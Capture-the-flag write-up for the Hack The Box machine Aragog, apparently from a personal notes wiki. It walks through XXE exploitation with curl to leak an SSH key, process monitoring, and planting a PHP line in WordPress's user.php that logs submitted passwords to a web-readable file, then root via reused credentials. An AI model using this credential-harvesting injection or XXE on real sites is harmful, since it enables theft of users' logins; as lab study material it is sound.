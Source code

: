 1. First you've to enumerate the machine with [Nmap](</General Info/Tools/Enumeracion/Nmap.md>) and also use [GoBuster](</General Info/Tools/Enumeracion/GoBuster.md>) and [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) in order to find some files of the page.
2. After doing all this enumeration you'll find a `test.txt` file in the ftp with the anon user listed in Nmap. Another thing you could find is the file hosts.php with the [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) tool. Once you've this two things you can combine them with the usage of curl to send a payload via a [XXE - XML External Entities Injection](</General Info/Tecnologias Web/Ataques/XXE - XML External Entities Injection.md>). The command you've to run is `curl -s -X POST -d @test.xml http://aragog.htb/hosts.php` in order to execute the curl tool in Silent mode, with the POST method and sending the content of the test.xml file as the body. The code that you should have in the test.xml file is in the [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>) resource.
3. Once you've sent that payload you will get the id_rsa of the user __Florian__
4. Now that you've used the id_rsa to get into the system via [SSH](</General Info/Tools/SSH.md>), you have to do some [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>). The thing that will pay off at the end is the usage of Pspy or the coding of a procmon tool to look for processes that run at a certain amount of time. The code can be seen in [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>).
5. Once you've done this kind of enumeration you'll come acorss a certain tool called wp-login.py that's being executed regularly. Only the name gives us the idea that the script is making smth log into an account. Because of this behaviour and the fact that you've control over the Wordpress root directory you can intercept the credentials that are being sent by modifing the file user.php to make the login script create a file with the credentials that are being used to login the user in. The only thing that you've to do is add the following line in the part that looks if the credentials are being sent:
```
if (!empty($_POST['pwd']))
	$credentials['user_password'] = $_POST['pwd']
	
	file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)  # INSERTED MALICIOUS CODE
```
The main purpose of this added line is to create a file called __log.txt__ that contains the user and password sent via the POST method with the script called `wp-login.py`.

6. Now that you've all set up the only thing that's left is wait. You can do it by running the command `watch -n 1 curl -s -X GET "http://aragog.htb/dev_wiki/log.txt"` and looking for the content of the file until it changes into the credentials of the Administrator user of the page.
7. The last thing of the machine is, because the user has the bad habit of reusing the credentials, issue the command `su root` and enter the password obtained from the previous exploit. Now you can freely go to `/root` and cat out the __root.txt__ file and go to `/home/florian` and also cat out the __user.txt__ file.

### Things to have in mind

- Sometimes when you compromise a machine that runs Wordpress, you can go on and look for the file __wp-config.php__ in the root wordpress directory and find valid credentials for the databases running on the server. 